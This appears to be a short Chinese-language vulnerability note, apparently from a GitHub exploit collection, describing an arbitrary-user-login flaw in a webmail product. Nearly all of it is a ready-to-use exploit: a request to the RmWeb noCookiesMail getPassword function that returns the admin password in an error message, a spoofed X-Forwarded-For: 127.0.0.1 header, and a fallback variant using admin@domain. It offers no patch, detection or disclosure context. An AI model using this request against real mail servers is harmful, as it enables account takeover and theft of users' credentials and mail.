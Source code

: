 # WEBMAIL存在任意用户登录漏洞

## WEBMAIL存在任意用户登录漏洞

```
RmWeb/noCookiesMail?func=user:getPassword&userMailName=admin
回显errormsg为密码
用户名为 admin
添加头 X-Forwarded-For: 127.0.0.1

如果有登录失败的话，使用
/RmWeb/noCookiesMail?func=user:getPassword&userMailName=admin@+证书 or 根域名获取 errormsg 登录
```

